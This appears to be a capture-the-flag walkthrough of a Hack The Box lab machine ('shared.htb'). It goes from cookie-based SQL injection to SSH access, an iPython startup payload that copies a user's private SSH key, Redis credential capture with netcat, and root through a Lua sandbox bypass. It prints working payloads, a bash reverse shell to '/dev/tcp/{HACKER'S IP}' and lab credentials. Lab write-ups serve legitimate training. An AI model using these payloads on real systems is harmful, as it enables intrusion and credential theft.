 1. Enumerate ports

2. Add shared.htb to `/etc/hosts`

3. Enumerate directories and files with [GoBuster](</General Info/Tools/Enumeracion/GoBuster.md>), after doing this enumerate subdomains with the same tool

4. Once you've enumerated the subdomains you'll come across `checkout.shared.htb`. Add it to `/etc/hosts`

5. Now enter a product in the cart and try to buy it, Once you've reached the checkout page look at the previously enumerated cookies and you'll see that the cookie `custom_cart` has changed and now it has in its content the name of the code of the product, so, because the checkout page makes a call to the database, its suceptible to SQLi

6. Once you've exploited the SQLi and obtained the user and password `james_mason:Soleil101` you can enter the machine through ssh and do some more enumeration. Recommended [Things to enumerate (Machine)](</General Info/Enumeration/Things to enumerate (Machine).md>)

7. Now that you've the machine enumerated you know that there is a directory called `scripts_review` that, because of the name, makes you think that maybe there's a process that looks for scripts in that folder.

8. Because of the previous assumption we now can try to look for processes being run regularly on the machine by another users in order to pivot to another user. [Processes enumeration](</General Info/Enumeration/Processes enumeration.md>)

9. Once you've detected the process that uses the directory scripts_review and you've seen what it does it's time to do some research and look for [iPython](</General Info/Tecnologias Web/iPython.md>). You'll see that the way of exploit this behavior is the one detailed in the note previously linked. The particular payload you have to use is `import os; os.system("cat ~/.ssh/id_rsa > /dev/shm/key")` and save it inside a python file called foo.py in the directory startup.

10. The previously explained step will make the process that runs regularly create a copy of the id_rsa file in a readable file that we'll be able to use in order to enter via SSH as the user that was running the process that employed [iPython](</General Info/Tecnologias Web/iPython.md>)

11. Now that we've the id_rsa of dan_smith you can put it in a file and change that file permissons with `chmod 600 {FILE}` and, after doing all that, execute the ssh client with the following command `ssh -i {KEY-FILE} dan_smith@{IP56}`

12. Now that you're connected to the machine you can try to enumerate everything to find ways of performing a privilege escalation. The way to find the escalation factor is by doing a `id` command and, once you see you're in the sysadmin group, execute the following command `find / -group sysadmin` in order to find the file `redis_connector_dev` and play with it

13. The main function of that file is auth to the redis server and gather all the info of it, so, what we can do in order to get the password of the redis service is:
	1. Get the file to our computer by running: `scp -i {KEY_FILE} {USER}@{IP}:{FILE_PATH} {LOCAL_PATH}`
	2. Once the file is in our computer run a netcat server in the redis port: `nc -lvpn 6379`
	3. Run the file in order to get the credentials used by the app in the redis server of the victim's machine

14. Once you've done the previous step and you've got the password `F2WHqJUz2WEz=Gqq` for the redis service you can try multiple attacks listed in the hacktricks page of redis pentesting
	1. One attack that could work on a redis service could be the one that is carried out in the ssh service by creating a key pair of your own machine and uploading the public key to the authorized keys of the root user in order to get credentials over the root account in the ssh service
	2. Another attack (The one applied in this machine particularly) is the LUA Sandbox Bypass, attack that gives you command execution as the user who runs the redis service (Root in this case). The code to make this happen is:
```
	eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash {PATH TO FILE WITH REV_SHELL}", "r"); local res = f:read("*a"); f:close(); return res' 0
```

This attacks require you to previously make a file that contains a simple bash script like this one in the specified path:
	
```
#!/bin/bash

bash -i >& /dev/tcp/{HACKER'S IP}/{PORT} 0>&1
```

At the same time of this attack you've to have your machine listening on the specified port with a tool like [Netcat](</General Info/Tools/Netcat>)

15 - Now you should have your reverse shell as root in the netcat window